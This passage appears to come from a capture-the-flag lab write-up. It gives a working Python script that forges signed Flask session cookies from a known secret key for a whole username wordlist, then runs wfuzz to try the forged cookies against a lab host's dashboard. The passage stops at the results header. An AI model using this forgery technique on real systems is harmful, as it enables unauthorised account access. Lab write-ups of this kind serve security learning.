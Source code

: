 Tracing backwards I can find the default salt is “cookie-session”. Other things I know or are just imported at the top of the file. I can use this to generate a script of my own:

```

#!/usr/bin/env python3

import hashlib
import sys
from flask.json.tag import TaggedJSONSerializer
from itsdangerous import TimestampSigner, URLSafeTimedSerializer

if len(sys.argv) < 2:
    print(f"{sys.argv[0]} [wordlist]")
    sys.exit()

with open(sys.argv[1], 'r') as f:
    names = f.readlines()

for name in names:
    cookie = URLSafeTimedSerializer(
            secret_key='secret123',
            salt='cookie-session',
            serializer=TaggedJSONSerializer(),
            signer=TimestampSigner,
            signer_kwargs={
                'key_derivation': 'hmac',
                'digest_method': hashlib.sha1
                }
            )
    print(cookie.dumps({"logged_in": True, "username": name.strip()}))

```

This does the entire list in less than a second:

```

oxdf@hacky$ time python3 generate_flask_cookies.py /usr/share/seclists/Usernames/Names/names.txt > names_cookies 

real    0m0.525s
user    0m0.514s
sys     0m0.010s

```

Either way, I’ll use `wfuzz` to check each cookie, hiding 302 responses (redirects back to `/login`):

```

oxdf@hacky$ wfuzz -u http://10.10.11.160:5000/dashboard -H "Cookie: session=FUZZ" -w names_cookies --hc 302
********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.160:5000/dashboard
Total requests: 10177

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                                           
===================================================================

```